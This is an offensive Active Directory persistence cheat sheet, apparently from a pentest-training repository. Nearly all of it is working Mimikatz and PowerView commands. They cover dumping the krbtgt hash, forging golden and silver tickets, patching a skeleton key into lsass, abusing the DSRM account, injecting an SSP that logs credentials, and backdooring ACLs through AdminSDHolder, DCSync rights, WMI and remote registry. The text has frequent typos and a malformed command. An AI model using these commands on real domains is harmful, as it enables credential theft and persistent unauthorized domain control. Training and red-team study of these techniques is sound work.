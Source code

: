 ## AD Persistence

- [Get krbtgt Hash](#get-krbtgt-hash)
- [Golden Ticket](#golden-ticket)
- [Silver Ticket](#silver-ticket)
- [Skeleton Key](#skeleton-key)
- [DSRM (Directory Services Restore Mode)](#dsrm--directory-services-restore-mode-)
- [SSP (Security Support Provider)](#ssp--security-support-provider-)
- [ACL Persistence](#acl-persistence)
    + [SDPROP and AdminSDHolder](#sdprop-and-adminsdholder)
    + [Domain Root Object ACL](#domain-root-object-acl)
    + [DCSync](#dcsync)
    + [WMI Security Descriptors](#wmi-security-descriptors)
    + [Remote Registry](#remote-registry)
- [MORE](#more)

### Get krbtgt Hash
```powershell
# On DC as a DA
C:> Invoke-Mimikatz -Command '"lsadump:lsa /patch"'

# DC-Sync attack. DA rights required
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user_<domain>\krbtgt"'
```
### Golden Ticket
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<fqdn_domain> 
                                         /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:500 
                                         /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
### Silver Ticket
```powershell
# Get Privileges to access HOST service as Administrator con host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
```
### Skeleton Key
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd
- Following steps need to be done in a DC session with DA rights
```powershell
# 1. Dump DSRM password (DA privileges required)
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>

# (OPTIONAL) 2. Compare the Administrator hash with the Admin hash of this command
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>

# 3. First one is the DSRM local Admin. Pass the hash can be used to authenticate
# 4. Logon behavior for DSRM account needs to be changed
C:> Enter-PSSession -Computername <hostname> 
C:> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# 5. Pass the hash. FQDS domain and NTLM Hash obtained for Administrator in step 1.
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<domain> /user:Administrator /ntlm:<adim_hash> /run:powershell.exe
```
### SSP (Security Support Provider)
- Inject into `lsass` using Mimikatz
```powershell
C:> Invoke-Mimikatz -Command '"misc::memssp"'
```
- Use `mimilib.dll`
```powershell
C:> $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
C:> $packages += mimilib
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
- All logons on DC logged to `C:\Windows\system32\kiwissp.log`

### ACL Persistence

##### SDPROP and AdminSDHolder

  AdminSDHolder is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups (like Domain Admins, Enterprise Admins, etc.) to prevent their accidental and unintended modifications, and to keep them secure.
Once you have agained Domain Admin privileges, AdminSDHolder container can be abused by backdooring it by giving your user GenericAll privileges, which effectively makes that user a Domain Admin.
```powershell
#`sdprop` is a process that runs evey hour and compares ACL of protected groups with members of the ACL of `AdminSDHolder`. Any differences are overwriten.
# With DA privileges on `AdminSDHolder` object, a user can be added to the `AsminSDHolder` ACL and will be added to protected groups when `sdprop` runs
# Load Module
C:> . .\Invoke-SDPropagator.ps1

# Force `sdprop` to run
C:> Invoke-SDPropagator

# Add Full Control Permissions for a user to AdminSDHolder using PowerView
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc moneycorp,dc=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Change PAssword permissions
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Write Members
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Check Domain Admins Permissions with Poweriew
C:> Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<username>"}

# Once with permissions, Add User with PowerView
C:> Add-DomainGroupMember -Identity 'Domain Admins' .Members <username> -Verbose

# Change user password
C:> Set-DomainUserPassword -Identity <usernname> -AccountPassword (ConvertTo-SecureString "Password@" -AsPlainText -Force) -Verbose
```
##### Domain Root Object ACL
```powershell
# Add Full Rights to Domain Root ACL
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
##### DCSync
```powershell
# Check if a user has DCSync rights. Gives nothing if no rights and
C:> Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<user>"}

# DCSync rights on Domain
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student76 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Execute DCSync
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

##### WMI Security Descriptors

```powershell
# To be able to run WMI commands
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemoteWMI -SamAccountName <username> -ComputerName <hostname_full_FQDN> -namespace 'root\cimv2' -Verbose
```
```powershell
# Give permissions to be able to PS Remoting
# UNSTABLE SINCE SOME M$ PATCHES
C:> . .\RACE.ps1

# Allow <user> WMI access in host. Domain Admin privileges shell process required
C:> Set-RemotePSRemoting –SamAccountName <username> -ComputerName <hostname_full_FQDN> -Verbose

# Now can run WMI on host
C:> gwmi -class win32_operatingsystem -ComputerName <host>
```
##### Remote Registry
```powershell
# Using RACE, with admin privs on remote machine
C:> Add-RemoteRegBackdoor -ComputerName <hostname> -Trustee <username> -Verbose

# From a shell as <username>, not DA rights
# As <username> from before, retrieve machine account hash:
C:> Get-RemoteMachineAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve local account hash:
C:> Get-RemoteLocalAccountHash -ComputerName <hostname> -Verbose

# As <username> from before, retrieve domain cached credentials:
C:> Get-RemoteCachedCredential -ComputerName <hostname> -Verbose

# With this machine account hash can create Silver Tickets
C:> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_fqdn> /sid:<domain_sid> /target:<hostname_fqdn> /service:HOST /rc4:<host_hash> /user:Administrator /ptt"'
```
### MORE





